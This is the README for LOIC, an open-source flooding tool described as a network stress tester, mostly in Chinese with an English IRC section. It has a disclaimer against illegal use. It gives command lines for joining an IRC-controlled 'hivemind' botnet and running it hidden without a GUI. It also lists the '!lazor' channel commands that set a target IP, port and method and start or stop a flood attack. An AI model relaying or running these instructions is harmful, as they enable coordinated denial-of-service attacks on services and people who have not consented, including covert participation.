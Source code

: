 ## INFO

低轨道离子炮（LOIC）是一款用 C# 编写的开源网络压力测试工具。LOIC 基于 Praetox 的 LOIC 项目（网址：https://sourceforge.net/projects/loic/）。

## DISCLAIMER

LOIC 仅供教育用途，旨在帮助服务器所有者培养“黑客防御”意识。本工具不提供任何担保。

**您不得将本软件用于非法或不道德的用途。这包括可能引起刑事或民事责任的活动。**

**在任何情况下，许可方均不对被许可方的任何活动或不当行为负责。**

## HOW TO RUN ON WINDOWS

获取二进制文件！

需要 Microsoft .NET Framework 3.5 Service Pack 1，下载地址：
http://www.microsoft.com/downloads/en/details.aspx?FamilyID=ab99342f-5d1a-413d-8319-81da479ab0d7&displaylang=en

## HIVEMIND/HIDDEN MODE

HIVEMIND 模式会将您的客户端连接到 IRC 服务器，以便对其进行远程控制。
您可以将其视为一个自愿的僵尸网络。请注意，您的客户端可能会被
控制去做一些不正当的事情。

注意：它不允许远程管理您的机器；它
只提供对 LOIC 本身的控制。

如果您想以 Hivemind 模式启动，请运行以下命令：

```
	LLOIC.exe /hivemind irc.server.address
```
这将连接到 irc://irc.server.adress:6667/loic

您还可以指定端口和频道：

```
	LLOIC.exe /hivemind irc.server.address 1234 #secret
```
这将连接到 irc://irc.server.adress:1234/secret

要运行 Hivemind 隐藏模式，请运行以下命令：

```
	LLOIC.exe /hidden /hivemind irc.server.address
```
它将连接到 irc://irc.server.adress:6667/loic，而没有任何可见的 GUI。

## CONTROLLING LOIC FROM IRC

As an OP, Admin or Owner, set the channel topic or send a message such as the following:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true
```

To start an attack, type:
```
	!lazor start
```

or append "start" to the END of the topic:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start
```

To reset LOIC's options back to their defaults:
```
	!lazor default
```

To stop an attack:
```
	!lazor stop
```

and **be sure to remove "start" from the END of the topic**, if it exists, as well.

Take a look at the source code for more details.